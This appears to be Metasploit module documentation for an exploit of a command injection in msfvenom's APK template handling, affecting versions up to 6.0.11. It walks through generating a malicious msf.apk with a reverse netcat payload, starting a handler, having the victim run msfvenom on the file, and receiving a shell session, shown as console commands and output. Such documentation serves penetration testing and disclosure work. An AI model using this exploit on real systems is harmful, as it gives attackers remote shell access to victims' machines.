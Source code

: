 ## Vulnerable Application

Metasploit Framework's `msfvenom` is vulnerable to a command injection
vulnerability when the user provides a crafted APK file to use as an Android
payload template. A "template" file in this context is an existing APK file,
within which an Android payload will be embedded.

The vulnerability affects Metasploit Framework <= 6.0.11 and Metasploit Pro <=
4.18.0

A copy of the vulnerable software can be obtained by:

* Using an old installer (e.g. <https://github.com/rapid7/metasploit-framework/releases/tag/6.0.11>); or
* Setting up a dev environment (see <http://r-7.co/MSF-DEV>) and doing `git checkout 6.0.11`

Note that the vulnerable code depends upon the `apktool`, `zipalign` and
`jarsigner` tools. That is, regardless of the vulnerability, `msfvenom` needs
these binaries on the PATH for it to even support APK templates.

Attempting to use `msfvenom` without these dependencies being installed:

```
% msfvenom -p android/meterpreter/reverse_tcp -x /dev/null -o /dev/null
Using APK template: /dev/null
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
Error: apktool not found. If it's not in your PATH, please add it.
```

These dependencies are available in Debian's standard repos with `jarsigner`
being provided by `openjdk`.

```
% sudo apt update && sudo apt install apktool zipalign default-jdk-headless
<... SNIP ...>

% msfvenom -p android/meterpreter/reverse_tcp -x /dev/null -o /dev/null
Using APK template: /dev/null
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
Error: undefined method `[]' for nil:NilClass
```

The environment is now ready.

## Verification Steps

1. Install the vulnerable application
2. Start `msfconsole`
3. Do: `use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
4. Set the payload and payload options as appropriate
5. Do: `exploit`
6. Start a handler
7. Transfer the generated `msf.apk` file to the machine running the vulnerable application
8. On the victim machine, do `msfvenom -p android/meterpreter/reverse_tcp -x msf.apk`
9. You should get a shell

Note: Due to the nature of the vulnerability, `bash` payloads are unlikely to
work. If you attempt to use them you will get a warning message when doing
`exploit`.

```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit

[!] Warning: bash payloads are unlikely to work
[+] msf.apk stored at /home/justin/.msf4/local/msf.apk
```

## Options

* `FILENAME` - the name of the APK file to produce. Note that it is safe to rename a file after it has been generated.

## Scenarios

### Metasploit Framework v6.0.11

Generate the APK file

```
msf6 > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 172.18.0.3
LHOST => 172.18.0.3
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 4444
LPORT => 4444
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit

[+] msf.apk stored at /home/justin/.msf4/local/msf.apk
```

Start a handler

```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.18.0.3
LHOST => 172.18.0.3
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.18.0.3:4444
```

As the victim, use `msfvenom` to generate an Android payload using the
generated file as a template

```
% ./msfvenom -p android/meterpreter/reverse_tcp -x /home/justin/.msf4/local/msf.apk -o /dev/null
Using APK template: /home/justin/.msf4/local/msf.apk
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
[*] Creating signing key and keystore..
[*] Decompiling original APK..
[*] Decompiling payload APK..
Error: No such file or directory @ rb_sysopen - /tmp/d20201025-4916-ewjqfp/original/AndroidManifest.xml
```

A shell session will be opened

```
[*] Command shell session 1 opened (172.18.0.3:4444 -> 172.18.0.3:56220) at 2020-10-25 22:13:43 +1100

id
uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```
